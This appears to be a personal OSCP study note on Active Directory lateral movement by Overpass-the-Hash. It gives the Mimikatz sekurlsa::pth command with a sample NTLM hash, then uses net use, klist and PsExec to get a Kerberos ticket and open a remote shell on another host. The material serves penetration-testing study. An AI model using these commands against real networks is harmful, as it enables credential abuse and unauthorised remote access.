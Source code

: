 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/4-overpass-the-hash/"}
---
```


----------
- Use NTLM user hash to gain full Kebreros Ticket Grantin Ticket (TGT), and then obtain Ticket Granting Service (TGS)
- Allows to pass NTLM hash to run services that requires Kerberos instead
- Requires:
	- Local admin privileges
	- NTLM hash of user

----------
### Overpass-the-Hash Remote Shell using Mimikatz:
1. Run Mimikatz and enable debug.
2. Create TGT:
```
sekurlsa::pth /user:<targetuser> /domain:<domain> /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
3. Obtain ticket by authenticating to network share:
```
net use \\files04
```
4. Analyze ticket:
```
klist
```
5. Run PsExec and launch cmd using ticket:
```
.\PsExec.exe \\files04 cmd
```

